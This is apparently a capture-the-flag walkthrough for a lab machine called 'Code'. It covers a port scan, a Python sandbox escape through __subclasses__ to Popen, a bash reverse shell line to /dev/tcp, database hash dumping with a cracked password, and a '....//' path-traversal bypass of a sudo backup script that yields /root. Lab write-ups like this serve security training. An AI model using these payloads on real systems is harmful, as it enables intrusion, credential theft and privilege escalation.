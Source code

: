 ```yaml
---
hidden: true
---
```


# Code

## Machine Informations





## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 --open -oN port_scan.txt 10.10.11.62

Nmap scan report for 10.10.11.62
Host is up (0.057s latency).
Not shown: 63145 closed tcp ports (reset), 2388 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Web Enumeration

### Web Whitelist Code Bypass

The web page is a python code editor that allow us to execute some python code.

<figure><img src="../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

We can try to find a escape to execute arbitraty code into a machine to get a reverse shell.

Restricted Words:

* import
* exec

Since we cannot use the words to import the libreries to execute code, we can try to call the class from local subclasses of installed python.

In the Python default subclasses there is a "Popen", that allow us to execute code.

Write a simple reverse shell, setup listening port in our machine and run it the python code.

<pre class="language-bash"><code class="lang-bash"><strong>nc -lnvp 9009
</strong></code></pre>

{% code title="" overflow="wrap" %}
```python
().__class__.__base__.__subclasses__()[317](["/bin/bash", "-c", "ls|bash -i >& /dev/tcp/10.10.14.117/9009 0>&1"])
```
{% endcode %}

And we have a reverse shell

<figure><img src="../../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

### Flag.txt

```bash
cat /home/app-production/user.txt
```



## Privilege Escalation

There is a readable Backups repository for us in the martin home directory.

```bash
ls -la /home/martin/backups
```

<figure><img src="../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

Start a simple http webserver in the target machine to transfer the file.

{% code title="Target machine" %}
```bash
# /home/martin/backups
python3 -m http.server 8080
```
{% endcode %}

{% code title="Attack machine" %}
```bash
wget http://10.10.11.62:8080/code_home_app-production_app_2024_August.tar.bz2
```
{% endcode %}

Now try to unzip the file to read the content.

```bash
bzip2 -d code_home_app-production_app_2024_August.tar.bz2
```

Searching into directory, i found a .db file. Try to get some juicy data.

```bash
cd home/instance
sqlite3 database.db
```

```sql
sqlite> SELECT * FROM user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
```

The hashs seem to be MD5 format.

Check if the hash is present into crackstation site.&#x20;

<figure><img src="../../../.gitbook/assets/image (200).png" alt=""><figcaption></figcaption></figure>

The password for martin user is `nafeelswordsmaster`&#x20;

Access via SSH to target machine as martin user.

```bash
ssh martin@10.10.11.62
```

### Linux PrivEsc

```bash
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh

```

The script that martin can execute has the follow content:

{% code overflow="wrap" %}
```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"

```
{% endcode %}

The script takes the task.json file to make a backup copy of a directory wrote in the task.json file.

I've tried to insert /root directory in this way /var/../root, to try bypass the function below in the backy.sh script.

{% code overflow="wrap" %}
```bash
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```
{% endcode %}

FIND A WAY TO BYPASS THIS

```bash
cd backups
nano task.json
```

Add the root directory bypassing the control, and REMOVE the object that remove all file in the directory.

```bash
"directories_to_archive": [
    "/var/....//root"
  ]
```

And we'll have a backup of the root directory.

Transfer file to attack machine

```bash
# target machine
python3 -m http.server 8080

# attack machine 
wget http://10.10.11.62:8080/code_var_...._root_2025_March.tar.bz2
```

Extract all and read the root flag

```bash
bzip2 -d code_var_...._root_2025_March.tar.bz2
```

### Root.txt

```bash
cat /root/root.txt
```

